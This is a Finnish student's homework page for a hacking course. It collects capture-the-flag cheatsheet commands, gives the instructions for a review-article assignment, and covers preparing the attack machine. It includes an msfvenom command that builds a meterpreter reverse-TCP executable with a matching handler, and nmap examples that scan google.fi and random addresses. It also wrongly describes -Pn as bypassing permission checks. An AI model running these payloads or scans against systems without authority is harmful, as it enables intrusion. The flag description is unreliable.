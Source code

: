 # h6 Lähtölaskenta

Lipunryöstö lähestyy, ja samalla kurssin päätös. Nyt valmistaudutaan lipunryöstöön, ja kurssin jälkeiseen elämään. Tieteellisten artikkeleiden silmäily auttaa oppariaiheen valinnassa. Harjoitusmaalit opettavat käytännön hakkerointia.

# a) Cheatsheet. Kerää parhaat komennot lipunryöstöä varten.

nmap : https://www.stationx.net/nmap-cheat-sheet/

    Yksinkertainen skannaus yhdelle IP-osoitteelle:
    nmap <IP-osoite>

    Skannaus useille IP-osoitteille:
    nmap <IP-osoite1> <IP-osoite2> <IP-osoite3> ...
    
    Skannaus IP-osoitealueelle:
    nmap <alkuosoite>-<loppuosoite>
    Esim: nmap 192.168.1.1-254

    Skannaus käyttäen CIDR-notaatiota:
    nmap <verkkopolkun-IP>/<maski-bittien-määrä>
    Esim: nmap 192.168.1.0/24

    Skannaus yhdestä tai useammasta IP-osoitteesta, jotka on lueteltu tiedostossa:
    nmap -iL <tiedoston-nimi>

    Skannaus yhdestä tai useammasta satunnaisesti valitusta IP-osoitteesta:
    nmap -iR <lukumäärä>
    Esimerkiksi: nmap -iR 100

    Skannaus tietyn palvelimen kaikkia IP-osoitteita:
    nmap <verkkotunnus>
    Esim: nmap google.fi

    Skannauksen tekeminen, joka ohittaa käyttöoikeuden tarkistukset ja on nopeampi:
    nmap -Pn <IP-osoite>


sql injektio: https://portswigger.net/web-security/sql-injection/cheat-sheet

fuff: https://cheatsheet.haax.fr/web-pentest/tools/ffuf/

Jhon the ripper: https://www.stationx.net/how-to-use-john-the-ripper/ https://terokarvinen.com/2023/crack-file-password-with-john/

hashcat: https://denizhalil.com/2023/11/01/hashcat-password-cracking/ https://terokarvinen.com/2022/cracking-passwords-with-hashcat/

kerberos: https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a

msfvenom/metasploitable : https://www.comparitech.com/net-admin/metasploit-cheat-sheet/

msfconsole
use multi/handler/payload
SET payload 
SET LHOST 
SET LPORT 
run -j

msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.x LPORT=80 -f exe > payload.exe

sessions -i 1


zap




# b) Review. Etsi ja tiivistä vertaisarviotu katsausartikkeli valitsemaltasi kyberturvallisuuden tai hakkeroinnin alalta.
"review" - yleensä katsausartikkeli nimessä on sana "review". Se pyrkii antamaan käsityksen alan tutkimuksesta juuri tällä hetkellä. Scholarlissa on myös nappi, jolla se yrittää näyttää vain review-artikkelit.
Tuoretta, jos ei löydy alle 2v, niin edes alle 5v.
1 <= jufo. Julkaistu arvostetussa vertaisarvioidussa lehdessä. Eli lehti löytyy Jufosta eli Julkaisufoorumin portaalista https://jfp.csc.fi/, ja sen taso on vähintään yksi.
Myös muualta kuin lehden kotisivulta ladattu kappale julkaistua artikkelia kelpaa, esim "final draft" sopii.
Ei yleistajuisia kirjoja tai lehtiartikkeleita: ei Mikrobitti, ei Tietotekiikan perusteet osa I, ei "Tiede 2000" -aikakauslehti
Älä maksa artikkeleista. Yleensä ilmainen latauslinkki löytyy Google Scholarlista oikealta. Haaga-Helian maksamat saa näkyviin Settings: Library Links: Haaga-Helia.
Englanninkielinen käyttöliittymä toimii paremmin https://scholar.google.com/ncr
Olennaisin sisältö tiivistelmään. Ei pelkkää metatekstiä tai artikkelin kuvailua:
Väärin: "Artikkeli kertoo uusista tuulista tietotekniikan parissa. Mukana on yllättävä havainto kiristyshaitakkeista"
Oikein: "Kiristyshaitakkeiden määrä kasvoi 30% vuoden 2023 aikana Foobarstanissa"
Suppeahko tiivistelmä ranskalaisilla viivoilla riittää
Kannattaa lisätä omat huomiot tai kysymykset mukaan. Merkitse selkeästi, mitkä ovat omaa pohdintaa.
Jos artikkeli on pitkä (yli 4 sivua), voit silmäillä sen lukemisen sijasta.

# c) Valmiina lipunryöstöön. Asenna läppärillesi tarvittavat työkalut lipunryöstöön. Hyökkäyskone voi olla virtuaalikone.
Se ei saa sisältää luottamuksellisia tietoja, koska sitä voi olla tarpeen tarkistaa ja tutkia harjoituksen yhteydessä.
Koneella saatetaan ajaa testibinäärejä ja kontteja; sekä tarkastamiseen liittyviä ohjelmia. Harjoituksessa saattaa olla Docker-kontteja, kokeile, että Docker toimii (Muistaakseni 'sudo apt-get -y install docker.io').
